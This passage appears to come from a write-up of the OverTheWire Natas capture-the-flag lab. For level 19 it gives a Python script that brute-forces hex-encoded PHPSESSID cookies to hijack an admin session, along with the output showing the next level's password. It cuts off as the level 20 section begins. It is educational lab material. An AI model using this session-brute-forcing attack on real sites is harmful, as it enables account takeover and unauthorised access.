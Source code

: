 ## Natas 19

Same as the last level but the cookies aren't sequential. If we capture a few cookies with Burp Suite we can see they look like `186-username` encoded in hex with 186 being a random int. We modify our script to try find `***-admin`

```python
import requests

user = 'natas19'
password = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
url = 'http://natas19.natas.labs.overthewire.org/'

for i in range(641):
    cookies = dict(PHPSESSID=(str(i)+"-admin").encode("ascii").hex())
    r= requests.get(url, auth=(user, password), cookies=cookies)
    if 'You are an admin' in r.text:
        print("Admin Session ID =", i)
        print(r.text)
        break
    else:
        print("Not Session ID =" , i)
```

```html
...
Not Session ID = 86
Not Session ID = 87
Not Session ID = 88
Admin Session ID = 89
<html>
...
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
```

## Natas 20

This can be beaten entirely in browser with a relatively simple injection.

All we need to do is make the request
